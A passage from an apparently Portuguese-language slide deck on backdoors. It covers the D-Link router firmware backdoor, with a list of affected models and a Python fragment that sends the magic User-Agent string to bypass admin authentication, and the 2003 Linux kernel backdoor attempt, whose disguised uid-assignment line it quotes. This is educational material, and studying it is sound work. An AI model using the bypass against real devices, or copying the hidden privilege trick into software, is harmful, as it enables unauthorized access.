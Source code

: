 
title: Engenharia reversa em firmware D-Link

Baseado no código fonte das páginas HTML e outros detalhes é sensato concluir que
os seguintes modelos são afetados:

* DIR-100
* DIR-120
* DI-624S
* DI-524UP
* DI-604S
* DI-604UP
* DI-604+
* TM-G5240

---

title: Engenharia reversa em firmware D-Link

Quem quiser fazer um teste real existe um código em Python escrito pelo próprio
Craig e pode ser encontrado em:

<http://pastebin.com/vbiG42VD>

<pre class="prettyprint">
# Normally only admins can access the tools_misc.xgi page;
# use the backdoor user-agent to bypass authentication
import urllib2
# ...
req = urllib2.Request(url+buf,
	headers={
		<b>'User-Agent': 'xmlset_roodkcableoj28840ybtide'</b>
	})
urllib2.urlopen(req)
</pre>

---

title: Ataque ao Kernel GNU/Linux
class: segue nobackground fill
image: img/kernel-attack.png

---

title: Ataque ao Kernel GNU/Linux

<http://linux.slashdot.org/story/13/10/09/1551240/the-linux-backdoor-attempt-of-2003>

Em 2003, houve uma tentativa de backdoor no Kernel do Linux.

<pre class="prettyprint">
/* ... */
if ((options == (__WCLONE|__WALL))
	&& (current->uid = 0))
        retval = -EINVAL;
/* ... */
</pre>
